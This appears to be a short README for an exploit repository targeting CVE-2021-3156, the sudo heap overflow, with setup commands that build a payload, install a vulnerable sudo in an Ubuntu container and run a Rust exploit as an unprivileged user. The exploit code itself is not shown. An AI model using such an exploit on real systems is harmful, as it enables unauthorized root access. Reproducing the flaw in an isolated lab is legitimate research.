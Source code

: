 # CVE-2021-3156

Original blog post: https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit

## Setup

```shell
$ make payload
$ make exploit
$ docker run --rm -ti -v `pwd`:/exploit ubuntu:20.04
apt update && apt install sudo=1.8.31-1ubuntu1
adduser \
    --disabled-password \
    --gecos "" \
    --shell "/bin/bash" \
    "bhr"
su bhr
cd /exploit
./rust_exploit
```

## 
